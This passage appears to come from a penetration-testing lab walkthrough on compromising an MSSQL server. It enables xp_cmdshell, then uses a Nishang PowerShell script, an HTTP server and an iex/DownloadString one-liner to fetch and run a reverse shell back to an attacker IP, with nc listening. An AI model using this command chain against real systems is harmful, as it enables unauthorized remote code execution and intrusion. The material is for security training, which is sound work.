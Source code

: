After recovering the password, use this account to logon to the MSSQL server.  Enable `xp_cmdshell` with `enable_xp_cmdshell` then execute commands with `xp_cmdshell <command>`:

![](images/Emulating%20Threat%20Methodologies%202/image036.png)<br><br>

We can use Nishang again, this time the `Invoke-PowerShellTcp.ps1` script.  Download
it to the attacking machine and add a command at the end of the file:

```bash
# Download script
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

# Add command with attacker address
echo Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.95 -Port 4444 >> Invoke-PowerShellTcp.ps1

# Serve the script over HTTP port 8000
python3 -m http.server
```

<br>

Now listen for the reverse shell with `nc -nlvp 4444` and use
`xp_cmdshell` to download the `Invoke-PowerShellTcp.ps1` script and run it:

```powershell
xp_cmdshell powershell iex(new-object net.webclient).DownloadString(\"http://10.10.16.95:8000/Invoke-PowerShellTcp.ps1\")
```

<br>

You should now have an interactive PowerShell reverse shell on the victim:

![](images/Emulating%20Threat%20Methodologies%202/image072.png)<br><br>
